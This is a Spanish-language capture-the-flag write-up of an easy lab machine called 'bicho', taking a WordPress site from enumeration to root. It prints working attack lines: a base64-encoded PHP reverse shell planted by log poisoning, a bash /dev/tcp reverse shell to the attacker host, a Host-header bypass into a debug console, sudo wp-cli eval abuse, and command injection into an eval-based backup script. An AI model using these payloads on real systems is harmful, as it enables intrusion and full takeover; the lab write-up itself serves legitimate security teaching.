










# Máquina bicho

---

Dificultad -> Fácil

---

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Did not follow redirect to http://bicho.dl
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

Solo está en puerto 80 que en el scan del nmap dice que redirecciona a `bicho.dl` asi que edito `/etc/hosts` y añado `bicho.dl` 

Ahora si, me meto a la página y encuentro una página de suazilandia

Si miro con `whatweb 172.17.0.2` enceuntro que está usando un wordpress 6.6.2:


Sabiendo esto hago un scan al wordpress para buscar usuarios:

```shell
wpscan -e p,vt,cb,u --url 172.17.0.2
```

Me encuentra el usuario bicho:


Intento hacerle un bruteforce con `wpscan -U bicho -P /usr/share/wordlists/rockyou.txt --url bicho.dl` pero no encuentro nada.

Mirando un poco mas el scan inicial de wordpress encuentro que hay un log:


Sabiendo esto, intento haccer log possioning:

Para hacer log possioning, primero intercepto el intentar logearme en `/wp-login` en burpsuite para que salga el intento fallido en el log


Ahora edito el User-Agent a `<?php phpinfo(); ?>` y le doy a Forward en burpsuite para comprobar si funciona el log possioning


Ahora si entro de nuevo a `http://bicho.dl/wp-content/debug.log` me sale la versión del php asi que el log possioning funciona:


Sabiendo esto, vuelvo ha hacer lo mismo por poniendo en el user agent una revshell:

Si pongo directamente un exec no funciona asi que lo tengo que poner codificado en base64


Entonces pongo User-Agent en burpsuite:

```shell
<?php echo `printf L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNy4wLjEvNDQ0NCAwPiYxCg==|base64 -d|bash`;?>
```

Ahora vuelvo a entrar a `http://bicho.dl/wp-content/debug.log` mientras que escucho desde mi máquina con netcat y consigo abrir un revshell como www-data:


Ahora, antes de nada hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#).

Despues de buscar maneras de escalar usuario encuentro con `netstat -tuln` puertos internos


Intento hacer `portforward` al puerto `5000` pero no está instalado `socat` asi que me lo paso desde mi máquina:

Lo copio a un carpeta `cp /usr/bin/socat .` y hago un server en python `python3 -m http.server 80` 

Ahora dede la máquina victima, me voy a `/tmp` y lo descargo ahí con `wget http://172.17.0.1/socat`

Ahora con socat, le doy permisos de ejecución `chmod +x socat` y lo ejecuto:

```shell
./socat TCP-LISTEN:8080,fork,reuseaddr TCP:127.0.0.1:5000
```


Pero me dice que faltan librerias asi que igualmente me las paso:

Desde mi máquina:


Me copio este archivo a la carpeta:

```shell
cp /usr/lib/x86_64-linux-gnu/libwrap.so.0 .
```

Y vuelvo ha hacer un server en python `python3 -m http.server 80`

Ahora desde la máquina victima lo descargo con wget `wget http://172.17.0.1/libwrap.so.0` y por ultimo exporto la variable de entorno `export LD_LIBRARY_PATH=/tmp` y ahora si, hago fordwarding al port:

```shell
./socat TCP-LISTEN:8080,fork,reuseaddr TCP:127.0.0.1:5000
```

Ahora con el puerto 5000 abierto en el 8080, entro en el navegador a http://172.17.0.2:8080


Hago fuzzing con gobuster:

```sh
gobuster dir -u http://172.17.0.2:8080 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

```shell
/console              (Status: 400) [Size: 167]
```

Unicamente un `/console` con un Bad request, viendo esto, intercepto la petición desde burpsuite y cambio el host al 127.0.0.1 para ver si es que solo debería funciona desde local:



Unicamente cambio el host a `127.0.0.1` y le doy a forward

Solo con eso ya me mete en una consola de python pero hay que hacer esto con todas las rquest desde burpsuite por que si no da Bad request:



Teniendo una consola de python, intento meter otra revshell con `os.system()`:

```shell
import os; os.system("bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/4445 0>&1'")
```



Y ahora estamos dentro como `app` antes de nada, vuelvo a hacer [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) 

Hago un `sudo -l` y encuentro un binario de wordpress:



Buscando un poco encuentro que puedo ejecutar comandos con:

```shell
sudo -u wpuser /usr/local/bin/wp eval 'system("whoami");'
```

Pero me dice que le tengo que especificar la ruta del wordpress:



Asi que le pongo la ruta del wordpress:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/var/www/bicho.dl eval 'system("whoami");'
```

Pero me sigue diciendo que no es una instalacción de wp:



Seguramente sea por que no tengo permisos en esa carpeta

Como solo tengo permisos con www-data, vuelvo a la terminal de www-data y copio todo `/var/www/bicho.dl` a `/tmp/wpcopia`:

```shell
cp /var/www/bicho.dl /tmp/wpcopia -r
```

Y le doy permisos a todo el mundo en esa carpeta:

```shell
chmod 777 /tmp/wpcopia
```

Ahora desde la otra terminal como app vuelvo a ejecutar el comando de wordpress con la ruta `/tmp/wpcopia`:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/tmp/wpcopia/ eval 'system("whoami");'
```



Y ahora si, puedo ejecutar comandos, entonces, abro una bash como `wpuser`:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/tmp/wpcopia/ eval 'system("/bin/bash");'
```

Con wpuser, hago un `sudo -l` y veo que puedo ejecutar un script como root:



Miro el script y veo lo siguiente:

```bash
#!/bin/bash
# Author: Álvaro Bernal (aka. trr0r)
# backup.sh: Realiza una copia de un log en una ubicación determinada (/backup)

# COLORES
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"
orangeColour="\e[38;5;214m\033[1m"
darkRedColour="\e[38;5;124m\033[1m"

if [ $# -eq 0 ]; then
    echo -e "\n${redColour}[!] Error, debes de proporcionar un argumento.${endColour}\n\n\t${blueColour}Example:${endColour} ${greenColour}/opt/scripts/backup.sh access${endColour}\n"
    exit
fi

# Variables GLOBALES
LOG_DIR="/var/log/apache2"
BACKUP_DIR="/backup"

LOG_NAME=$1

FULL_NAME="$LOG_DIR/$LOG_NAME.log"

/usr/bin/echo "Realizando copia de $FULL_NAME en $BACKUP_DIR"
COMMAND="/usr/bin/cp $FULL_NAME $BACKUP_DIR"
eval $COMMAND
```

Viendo que usa un eval, se pueden ejecutar comando de forma sencilla usando:

```shell
sudo /opt/scripts/backup.sh "x; whoami;"
```



Veo que funciona asi que ejecuto una bash como root:

```shell
sudo /opt/scripts/backup.sh "x; /bin/bash;"
```



Y somos root :)
